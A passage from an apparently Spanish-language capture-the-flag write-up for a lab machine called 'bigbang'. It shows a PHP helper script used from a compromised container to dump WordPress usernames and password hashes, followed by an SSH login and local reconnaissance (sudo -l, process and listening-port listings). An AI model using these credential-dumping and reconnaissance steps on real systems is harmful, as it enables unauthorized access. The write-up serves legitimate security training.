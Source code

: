 ```bash 
}
$conn->close();
?>
```


Lo descargamos en el contenedor, y lo ejecutamos con la query que queremos: 
```bash
www-data@8e3a72b5e980:/var/tmp$ php query.php "use wordpress;"
php query.php "use wordpress;"
Query executed successfully.

www-data@8e3a72b5e980:/var/tmp$ php query.php "select user_login, user_pass, user_nicename from wp_users;"
<ser_login, user_pass, user_nicename from wp_users;"
{
    "user_login": "root",
    "user_pass": "$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1",
    "user_nicename": "root"
}
{
    "user_login": "shawking",
    "user_pass": "$P$Br7LUHG9NjNk6\/QSYm2chNHfxWdoK.\/",
    "user_nicename": "shawking"
}
``` 

Con todo esto, ya podemos conectarnos por ssh: 
```bash 
shawking@bigbang:~$ whoami
shawking
shawking@bigbang:~$ sudo -l
[sudo] password for shawking:
shawking@bigbang:~$ ls
snap  user.txt
```

Podemos ejecutar comando de reconocimiento como:

```bash 
hawking@bigbang:~$ ps -ef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 May14 ?        00:00:00 [kthreadd]
root           3       2  0 May14 ?        00:00:00  \_ [rcu_gp]

shawking@bigbang:~$ ss -lnpt
State                 Recv-Q                Send-Q                               Local Address:Port                                 Peer Address:Port                Process                
LISTEN                0                     4096                                    172.17.0.1:3306                                      0.0.0.0:*                                          
LISTEN                0                     128                                      127.0.0.1:9090                                      0.0.0.0:*                                          
LISTEN                0                     4096                                     127.0.0.1:3000                                      0.0.0.0:*                                          
LISTEN                0                     4096                                 127.0.0.53%lo:53                                        0.0.0.0:*                                          
LISTEN                0                     4096                                     127.0.0.1:42439                                     0.0.0.0:*                                          
LISTEN                0                     128                                        0.0.0.0:22                                        0.0.0.0:*                                          
LISTEN                0                     4096                                       0.0.0.0:80                                        0.0.0.0:*                                          
LISTEN                0                     128                                           [::]:22                                           [::]:*                                          
LISTEN                0                     4096                                          [::]:80                                           [::]:*
```